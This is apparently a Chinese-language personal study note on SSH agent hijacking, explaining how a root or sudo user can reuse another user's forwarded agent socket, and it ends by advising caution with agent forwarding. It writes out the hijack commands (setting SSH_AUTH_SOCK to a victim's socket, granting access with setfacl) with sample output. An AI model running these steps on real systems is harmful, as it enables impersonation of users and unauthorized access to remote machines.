 title:SSH学习笔记之--Agent Hijacking 
Date: 2015-08-27 10:20
Modified: 2015-08-27 10:20
Category: SSH 
Tags: SSH, anget hijacking
Slug: ssh-agent-hijacking 
Authors: nullne 
####Agent Hijacking
agent forwarding在安全方面有一个好处就是用户的私钥永远不会出现在远端服务器或者传输过程中。但却会面临另外一个安全隐患：agent hijacking
	  
ssh实现的每一个方式都会提供一种让client向agent请求服务的机制，在UNIX/Linux上是用/tmp/文件夹下面的UNIX domain socket实现的。  
	
这个文件是被系统重度保护的，只有当前进程的用户才能访问，并且被保护在相应地子文件夹下面。但是任何措施都不能防止root用户访问任何一个文件。  
	
root用户可以通过该domain socket连接该socket对应的用户能够访问的任何机器，并且是以这个用户的身份。  
	
下面是简单的实现方式：

    :::bash
	ls -l /tmp/ssh*      #look for somebody's agent socket
	/tmp/ssh-CXkd6094:
	total 24
	srwxr-xr-x    1 steve    steve           0 Aug 30 08:46 agent.6094=
		
	export SSH_AUTH_SOCK=/tmp/ssh-CXkd6094/agent.6094

	ssh steve@remotesystem

	remote$                  # Gotcha! Logged in as "steve" user on remote system!

如果没有root权限也没关系，可能你有sudo的权限，同样下面的操作也可以完成相同的目的：  

    :::bash
	localhost$ ssh -A user@host
	$ setfacl -m otheruser:x   $(dirname "$SSH_AUTH_SOCK")
	$ setfacl -m otheruser:rwx "$SSH_AUTH_SOCK"
	$ sudo su - otheruser
	$ ssh server
	otheruser@server$

目前没有任何技术手段防止root用户劫持SSH agent socket，所以鉴于安全方面的考虑，慎用ssh angent forwarding.
